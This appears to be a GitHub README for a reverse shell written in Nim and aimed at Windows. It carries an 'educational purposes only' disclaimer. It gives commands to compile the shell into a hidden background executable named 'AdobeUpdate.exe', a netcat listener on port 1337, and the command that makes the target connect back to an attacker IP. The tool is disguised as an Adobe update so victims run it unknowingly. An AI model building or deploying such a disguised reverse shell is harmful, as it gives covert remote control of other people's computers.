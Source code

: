 # Nim Reverse Shell

A simple reverse shell written in Nim (see the "Tested Operating Systems" section below for more details). **This code is made for educational purposes only**.


## Tested Operating Systems

- Windows 10, 11

### Installation

```bash
sudo apt install mingw-w64
sudo apt install nim
```

The code can be compiled in various ways using Nim. In this example, the code is compiled to EXE using MinGW and runs in the victim's background once executed (thanks to the "--app:gui" flag). Update IP and port

```bash
nim c -d:mingw --app:gui --opt:speed -o:AdobeUpdate.exe rev_shell.nim
```
#### Parameters
*  -d: define compiler
*  --app: generate gui app
*  --opt: optimize for speed
*  -o: output
### Execution
Cybersecurity professional
```bash
nc -lvnp 1337
```
Target System
```bash
AdobeUpdate.exe 10.10.5.25 1337              --defaults to static IP in code if no arguments given
```



